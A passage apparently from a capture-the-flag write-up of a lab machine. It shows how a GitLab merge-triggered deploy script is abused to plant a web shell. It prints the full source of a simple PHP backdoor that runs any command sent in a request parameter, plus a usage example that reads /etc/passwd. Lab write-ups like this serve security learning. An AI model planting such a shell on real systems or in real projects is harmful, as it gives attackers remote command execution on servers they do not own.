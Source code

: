 ![Connected user](/media/2020.01/bitlab_4.png){: .image-process-article-image}

## Gitlab authenticated

The first project is the developer profile seen earlier. The second project is
the code use to deploy the first project using the following PHP syntax:

    :::PHP
    if ($repo=='Profile' && $branch=='master' && $event=='merge_request' && $state=='merged') {
        echo shell_exec('cd ../profile/; sudo git pull'),"\n";
    }

We can add a PHP simple reverse shell (the one in
`/usr/share/webshells/php/simple-backdoor.php` on Kali), make a pull request and
merge it from the gitlab interface.

    :::PHP
    <!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

    <?php

    if(isset($_REQUEST['cmd'])){
            echo "<pre>";
            $cmd = ($_REQUEST['cmd']);
            system($cmd);
            echo "</pre>";
            die;
    }

    ?>

    Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

    <!--    http://michaeldaw.org   2006    -->
